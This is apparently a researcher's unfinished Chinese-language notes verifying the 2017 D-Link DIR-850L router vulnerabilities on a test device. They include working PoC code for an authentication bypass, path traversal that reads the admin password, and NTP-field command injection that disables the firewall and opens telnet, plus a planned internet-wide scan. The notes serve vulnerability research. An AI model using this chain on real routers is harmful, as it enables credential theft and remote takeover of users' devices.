前言
翻了一下笔记，看看有没有能贴出来的，发现这个已经过时了。这个笔记是当时花了一晚上做了一半，突然让我出差，另一个实习生搞不定于是不了了之了。现在也没有研究价值了，干脆贴出来吧。
CNVD在2017年8月10日发布了D-Link DIR系列由器身份验证信息泄露漏洞和远程命令执行漏洞（CNVD-2017-20002、CNVD-2017-20001）,根据知道创宇的验证情况，受漏洞影响的D-Link 路由器型号不限于官方厂商确认的DIR-850L型号，相关受影响的型号还包括DIR-868L、DIR-600、DIR-860L、DIR-815、DIR-890L、DIR-610L、DIR-822。相关利用代码已在互联网公开，受到影响的设备数量根据标定超过20万台，有可能会诱发大规模的网络攻击。
我们采购了一个官方未确认但存在CNVD影响列表中的型号DIR-850L/B1，目的是验证漏洞公告的缺陷真实性。
并且下载了影响列表中其他型号的最新固件用于分析，目的是验证数据可靠性。
验证准备
先模拟真实使用环境，配置上网参数，设置无线密码以及管理密码，注册MyDlink账户。

计划先验证当前版本2.06的漏洞，然后刷入最新固件并验证漏洞。DIR-850L/B1官方最新固件版本是2.07B05，发布时间是02/21/17，可知官方没有为其打上补丁。
然后通过WAN测试是否能直接访问目标设备，结果显示当前设备无法直接通过WAN访问。

除非手动开启远程管理才能通过WAN口的非80端口访问路由器

分析
作者说明远程命令执行由两个漏洞组成，通过这个攻击组合可以执行任意命令。
- 未认证用户可上传任意文件
- 管理员用户可执行任意代码
但是没有找到上传任意文件的证明
对比补丁

主要变化的可执行文件是cgibin，脚本文件是DEVICE.TIME.php和fatlady.php。
DEVICE.TIME.php加入了NTP服务器域名的验证，防止命令注入。

fatlady.php加入了相对路径构造字符的过滤。

先分析DIR 850L/A的PoC和固件。作者的PoC证明了4处缺陷，并组合利用它们达到远程命令执行的目的。
未授权访问
未登录的用户可以直接访问CGI。
cookies = {"uid": "whatever"}
使用AUTHORIZED_GROUP>=1的header也能绕过验证
curl -d "SERVICES=DEVICE.ACCOUNT&x=y&AUTHORIZED_GROUP=1" "http://192.168.1.159:8080/getcfg.php"
管理员密码读取
构造xml，发送给/hedwig.cgi，然后读取里面的账号和密码。
headers = {"Content-Type": "text/xml"}
cookies = {"uid": "whatever"}
data = """<?xml version="1.0" encoding="utf-8"?>
<postxml>
<module>
<service>../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml</service>
</module>
</postxml>"""
resp = session.post(urljoin(TARGET, "/hedwig.cgi"), headers=headers, cookies=cookies, data=data)
accdata = resp.text[:resp.text.find("<?xml")]
admin_pasw = ""
tree = lxml.etree.fromstring(accdata)
accounts = tree.xpath("/module/device/account/entry")
for acc in accounts:
name = acc.findtext("name", "")
pasw = acc.findtext("password", "")
print("name:", name)
print("pass:", pasw)
if name == "Admin":
admin_pasw = pasw
登录口令爆破
payload中加密的password可以自己构造，可暴力破解。在PoC里用于登录账户获得Cookie。
resp = session.get(urljoin(TARGET, "/authentication.cgi"))
# print(resp.text)
resp = json.loads(resp.text)
if resp["status"].lower() != "ok":
print("Failed!")
print(resp.text)
sys.exit()
print("uid:", resp["uid"])
print("challenge:", resp["challenge"])
session.cookies.update({"uid": resp["uid"]})
print("Auth login...")
user_name = "Admin"
user_pasw = admin_pasw
data = {
"id": user_name,
"password": hmac.new(user_pasw.encode(), (user_name + resp["challenge"]).encode(), "md5").hexdigest().upper()
}
resp = session.post(urljoin(TARGET, "/authentication.cgi"), data=data)
两处命令注入
pigwidgeon.cgi和hedwig.cgi都存在命令注入，payload通过构造xml然后被POST过去。
data = {"SERVICES": "DEVICE.TIME"}
resp = session.post(urljoin(TARGET, "/getcfg.php"), data=data)
tree = lxml.etree.fromstring(resp.content)
tree.xpath("//ntp/enable")[0].text = "1"
tree.xpath("//ntp/server")[0].text = "metelesku; (" + COMMAND + ") & exit; "
tree.xpath("//ntp6/enable")[0].text = "1"
data = lxml.etree.tostring(tree)
分析完PoC后，解包D-Link固件，然后分析文件。
binwalk DIR850LA1_FW114b07WW.bin
dd bs=1 skip=1638544 if=DIR850LA1_FW114b07WW.bin of=DIR850LA1_FW114b07WW.squashfs
unsquashfs DIR850LA1_FW114b07WW.squashfs
发现该目录下的CGI文件都是指向cgibin的符号链接

web架构后端由PHP提供HNAP的WebService，前端异步请求。
分析用于解析PHP对应的可执行文件/htdocs/cgibin，从入口点跟进。

通过argv[0]匹配相应的CGI，CGI再去执行PHP文件，如果没有匹配到则输出
CGI.BIN, unknown command argv[0]

hedwigcgi_main把获取到的xml文本解析成参数，然后传递给/htdocs/webinc/fatlady.php。

关键在这三行，获取到service参数，让PHP加载文件。
$service = query("service");
$target = "/htdocs/phplib/fatlady/".$service.".php";
if (isfile($target)==1) dophp("load", $target);
通过构造目录，可以实现任意文件包含，达到输出敏感信息的目的。
/htdocs/phplib/fatlady/../../../htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml.php

pigwidgeoncgi_main先验证session是否属于管理员，如果属于则把xml解析，并设ACTION参数值为SETCFG，然后传入/htdocs/webinc/wand.php



关键代码
$svc = query("service");
$file = "/htdocs/phplib/setcfg/".$svc.".php";
if (isfile($file)==1) dophp("load", $file);
然后可以包含指定文件DEVICE.TIME
service = DEVICE.TIME
server = metelesku; (iptables -F;iptables -X;iptables -t nat -F;iptables -t nat -X;iptables -t mangle -F;iptables -t mangle -X;iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;telnetd -p 23090 -l /bin/date) &; exit;
验证
以上分析的是DIR 850L/A的1.14.B07固件。对DIR 850L/B运行PoC脚本之后，算是复现其中三个缺陷，只有部分cgi可以未授权访问，getcfg.php需要登陆后才能访问。

没有管理员cookie的情况下，命令注入只有hedwig.cgi能显示OK，pigwidgeon显示no power。

国行版固件authentication.cgi的登录链接变成了webfa_authentication.cgi
验证未授权访问CGI

验证本地文件包含读取用户名密码

代码注入
分析DIR 850L/B
因为通告没有指明设备版本以及固件版本，PoC的利用范围有限。我们暂时不确定DIR 850L/B是否真实存在其漏洞，需要分析850L/B固件。但是官网的固件加密了，不能直接分析。现在有两个办法，一个是获得ROOT权限把固件提出来，另一个是通过读取Flash芯片提取固件。
这次还爆出来一个在局域网任意命令执行的漏洞，利用条件苛刻，系统以ROOT权限运行dnsmasq，它的守护进程会从DHCP服务器获得"host-name"参数拼接并执行，我们可以通过注入命令的方式获得ROOT权限。


提取固件的挂载分区
dd if=/dev/mtdblock/7 of=/var/tmp/storage/Generic_Ubuntu_C2EE4/mtdblock0.bin bs=8
unsquashfs mtdblock0.bin
TODO 1
分析文件目录差异和程序差异并写出
全网扫描统计
TODO 0
使用Allseeing的全网扫描结果，通过脚本统计存在漏洞并能利用的路由器。